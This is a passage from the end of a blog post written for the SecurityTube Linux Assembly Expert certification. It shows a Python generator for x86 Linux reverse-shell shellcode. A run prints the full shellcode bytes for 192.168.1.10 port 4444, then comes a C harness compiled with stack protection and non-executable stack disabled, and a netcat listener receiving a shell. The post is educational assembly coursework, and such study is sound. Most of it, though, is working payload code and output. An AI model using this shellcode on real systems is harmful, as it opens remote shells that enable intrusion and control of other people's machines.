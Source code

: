 ```python
\\xf9\\x31\\xd2\\x52\\x68\\x2f\\x2f\\x73
\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3
\\x89\\xd1\\xb0\\x0b\\xcd\\x80
""" % (ip, port)

print ("Shellcode:")
print(shellcode.replace("\n", ""))
```

Now let's test with a different IP address and Port.

```
absolomb@ubuntu:~/SLAE/assignments/2$ python3 reverse.py -i 192.168.1.10 -p 4444
Shellcode:
\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x68\xc0\xa8\x01\n\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x87\xdf\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80
absolomb@ubuntu:~/SLAE/assignments/2$ vim shellcode.c
absolomb@ubuntu:~/SLAE/assignments/2$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/2$ ./shellcode
Shellcode Length:  76
```

```
absolomb@ubuntu:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.1.10] port 4444 [tcp/*] accepted (family 2, sport 34192)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success! Note that you won't be able to use certain IP addresses due to nulls, however the script will check and tell you. 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>